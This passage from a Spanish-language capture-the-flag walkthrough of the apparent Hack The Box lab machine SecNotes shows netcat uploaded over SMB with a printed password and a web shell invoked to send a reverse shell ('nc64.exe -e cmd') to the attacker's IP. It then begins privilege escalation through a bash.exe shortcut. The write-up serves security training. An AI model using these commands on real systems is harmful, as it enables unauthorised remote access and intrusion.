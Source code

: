Subire ``netcat.exe`` para enviar una revershell a mi maquina atacante, me pongo en escucha con ``nc`` por el puerto 443 y ejecuto el netcat en la maquina victima.

````bash
❯ smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&' --upload nc64.exe 'new-site/nc64.exe'
[+] Starting upload: nc64.exe (45272 bytes)
[+] Upload complete.
`````

````bash 
http://10.10.10.97:8808/shell.php?cmd=nc64.exe -e cmd 10.10.14.6 443
`````

![imagen-de-prueba](/assets/img/secnotes/Captura%20de%20pantalla%20(146).png)
_Image Secnotes_

````bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.97] 52518
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
`````

## Escalar privilegios.

Dentro del directorio ``Desktop``de tyler hay unos archivos ``.lnk``y uno llamado ``bash.lnk`` dentro hay ruta de un binario ``bash.exe`` que ejecuta un subsistema ``Ubuntu``.

>lnk son archivos de acceso directo de Windows.

````bash
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L wV	v(	9PO :+00/C:\V1LIWindows@	ﾋLLI.h&WindowsZ1L<System32B	ﾋLL<.pkSystem32Z2LP bash.exeB	ﾋL<LU.Ybash.exeK-C:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32%
wN]ND.Q`Xsecnotesx<sA㍧o'/x<sA㍧o'/=	Y1SPS0CGsf"=dSystem32 (C:\Windows)1SPSXFL8C&mq/S-1-5-21-1791094074-13639188404199337083-10021SPS0%G`%bash.exe@
)
 Application@v(	i1SPSjc(=OMC:\Windows\System32\bash.exe91SPSmDpHH@.=xhH(bP
`````

````bash
C:\Windows\System32\bash.exe
`````

````bash
C:\Windows\System32\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04 LTS
Release:	18.04
Codename:	bionic
`````
